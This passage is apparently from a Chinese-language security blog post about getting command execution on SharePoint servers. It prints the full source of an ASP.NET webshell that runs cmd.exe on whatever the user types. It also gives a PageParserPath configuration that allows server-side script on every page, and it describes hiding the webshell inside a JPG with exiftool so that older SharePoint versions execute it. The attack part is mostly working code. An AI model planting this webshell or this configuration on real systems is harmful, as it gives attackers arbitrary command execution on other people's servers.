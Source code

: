 ```
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUPr7nKmMGapNI6truXoj4ZEFqpb5DM0ksriaKyianaqqHYcydcCbSsicRw/640?wx_fmt=png)

直接访问

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUhhcrwVdp8YuaocYFicZpT1ThDQqCtzia8nAwKHfqTohq2bwibxNeicwJfw/640?wx_fmt=png)

我们只需要在 PageParserPath 加入下面的代码

```
<PageParserPath
  VirtualPath="/*"
  CompilationMode="Always"
  AllowServerSideScript="true"
  IncludeSubFolders="true" />
```

就可以执行命令了

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUsuKAgFd2EqF4h507PqGaZ8dPz8iaiawCJEAAr1WHhMHovMfOOLztfx4A/640?wx_fmt=png)

我们也可以使用 jpg 的方法来实现，首先找到一个图片，然后将 webshell 代码，转义出来：

```
<script Language=\"c#\" runat=\"server\">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = \"cmd.exe\";psi.Arguments = \"/c \"+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write(\"<pre>\");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write(\"</pre>\");}</script><HTML><HEAD><title>awen asp.net webshell</title></HEAD><body ><form id=\"cmd\" method=\"post\" runat=\"server\"><asp:TextBox id=\"txtArg\" style=\"Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px\" runat=\"server\" Width=\"250px\"></asp:TextBox><asp:Button id=\"testing\" style=\"Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px\" runat=\"server\" Text=\"excute\" OnClick=\"cmdExe_Click\"></asp:Button><asp:Label id=\"lblText\" style=\"Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px\" runat=\"server\">Command:</asp:Label></form></body></HTML>
```

然后使用 exiftool 来将代码插入图片

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LU99eNWmf1vo1eSOcuEE8CbGZmj8GCeHj1sSicZkdzAqzicmxh6k2Kgb6g/640?wx_fmt=png)

若是低版本的 sharepoint 便可以利用该方法执行命令了。其沙箱原理如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LU4nomddTEeTnMcMom26Uefy2gLOOqRa9nwoLr3sSUMw1fPwZibLAxBcA/640?wx_fmt=png)
